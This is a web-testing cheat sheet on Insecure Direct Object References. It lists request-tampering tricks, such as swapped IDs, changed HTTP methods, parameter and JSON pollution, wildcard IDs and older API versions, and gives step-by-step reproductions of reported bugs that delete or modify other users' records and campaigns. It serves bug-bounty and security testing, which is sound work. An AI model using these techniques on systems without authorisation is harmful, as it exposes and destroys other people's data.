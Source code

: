 # Insecure Direct Object References

## Check List



## Cheat Sheet

### Methodology

{% stepper %}
{% step %}
Create two accounts if possible or else enumerate users first.
{% endstep %}

{% step %}
Check if the endpoint is private or public and does it contains any kind of id param.


{% endstep %}

{% step %}
Try changing the param value to some other user and see if does anything to their account
{% endstep %}

{% step %}
change HTTP method like this

<pre class="language-http"><code class="lang-http"><strong>GET /users/delete/victim_id -> 403
</strong>POST /users/delete/victim_id -> 200
</code></pre>
{% endstep %}

{% step %}
Try replacing parameter names instead of this :&#x20;

```http
GET /api/albums?album_id= <album id>
```
{% endstep %}

{% step %}
Try This:

{% hint style="info" %}
Tip: There is a Burp extension called Paramalyzer which\
will help with this by remembering all the parameters you have passed to a host.
{% endhint %}

```http
GET /api/albums?account_id= <account id>
```
{% endstep %}

{% step %}
Path Traversal IN users Path

if request like this :&#x20;

```http
POST /users/delete/victim_id -> 403
```
{% endstep %}

{% step %}
change request to this&#x20;

```http
POST /users/delete/my_id/..victim_id -> 200
```
{% endstep %}

{% step %}
change request content-type

```http
Content-Type: application/xml
Content-Type: application/json
```
{% endstep %}

{% step %}
swap non-numeric with numeric id

```http
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```
{% endstep %}

{% step %}
Missing Function Level Acess Control and changes Charachter path

```
GET /admin/profile -> 401
GET /Admin/profile -> 200
GET /ADMIN/profile -> 200
```
{% endstep %}

{% step %}
send wildcard instead of an id

```http
GET /api/users/user_id 
changes to this
GET /api/users/*
```
{% endstep %}

{% step %}
Never ignore encoded/hashed ID for hashed ID ,create multiple accounts and understand the\
pattern application users to allot an iD&#x20;
{% endstep %}

{% step %}
Bypass object level authorization Add parameter onto the endpoit if not present by defualt

```
GET /api_v1/messages -> 200
GET /api_v1/messages?user_id=victim_uuid -> 200
```
{% endstep %}

{% step %}
HTTP Parameter POllution Give mult value for same parameter

```http
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```
{% endstep %}

{% step %}
change file type

```http
GET /user_data/2341 -> 401
GET /user_data/2341.json -> 200
GET /user_data/2341.xml -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt -> 200
```
{% endstep %}

{% step %}
json parameter pollution

```json
{"userid":1234,"userid":2542}
```
{% endstep %}

{% step %}
Wrap the ID with an array in the body

```json
{"userid":123} -> 401
{"userid":[123]} -> 200
```
{% endstep %}

{% step %}
c wrap the id with a json objec

```json
{"userid":123} -> 401
{"userid":{"userid":123}} -> 200
```
{% endstep %}

{% step %}
Test an outdata API version

```http
GET /v3/users_data/1234 -> 401
GET /v1/users_data/1234 -> 200
```
{% endstep %}
{% endstepper %}

{% stepper %}
{% step %}
Log in to your own account in two browsers A and B with User A and User B
{% endstep %}

{% step %}
Create your own \*_Licenses and certifications_ in both the account
{% endstep %}

{% step %}
Create your own \*_Licenses and certifications_ in both the account
{% endstep %}

{% step %}
Now In the body change the **ID** number and you will be able to delete all the **Licenses and certifications** present in HackerOne
{% endstep %}

{% step %}
For now change the ID to the **Licenses and certifications** ID of the Other account and it will be deleted.
{% endstep %}
{% endstepper %}

{% stepper %}
{% step %}
Go to the subscribe page and sign up with an email (or create two test emails).
{% endstep %}

{% step %}
Note the subscribe URL: `...?p=subscribe&id=1`.
{% endstep %}

{% step %}
Change `subscribe` → `unsubscribe`: `...?p=unsubscribe&id=1`.
{% endstep %}

{% step %}
In the unsubscribe form enter the target email (for example, the email you previously subscribed with).
{% endstep %}

{% step %}
The page shows “You have been unsubscribed...” and a confirmation email is received.\
(The report indicates this works without CAPTCHA or a confirmation link.)=
{% endstep %}
{% endstepper %}

{% stepper %}
{% step %}
Capture the GraphQL `UpdateCampaign` POST request when editing a campaign (example request sent to `POST /graphql` with JSON body containing `input.campaign_id`).
{% endstep %}

{% step %}
The `campaign_id` is a base64-encoded global id (e.g. `Z2lkOi8vaGFja2Vyb25lL0NhbXBhaWduLzI0NA==` → `gid://hackerone/Campaign/244` when decoded).
{% endstep %}

{% step %}
Change the numeric ID part of the decoded GID (e.g. `244` → `243` or `245`), re‑encode the modified GID to base64 and replace `input.campaign_id` with that value in the same request.
{% endstep %}

{% step %}
Send the modified `UpdateCampaign` request. The server accepts the request for the targeted `campaign_id` (even if that campaign belongs to another program), allowing the campaign to be updated/removed via that request.
{% endstep %}

{% step %}
Impact: by targeting another program’s ongoing campaign id, a requester can modify or delete campaigns they don’t own.

{% hint style="info" %}
Key detail: decode `campaign_id` from base64 → you get `gid://hackerone/Campaign/<N>`. Modifying `<N>` and re-encoding changes the target campaign.\
\
\
idor lead to view private reports `title`,`url`,`id`,`state`,`substate`,`severity_rating`,`readable_substate`,`created_at`,`submitted_at`,`reporter_name`
{% endhint %}
{% endstep %}
{% endstepper %}
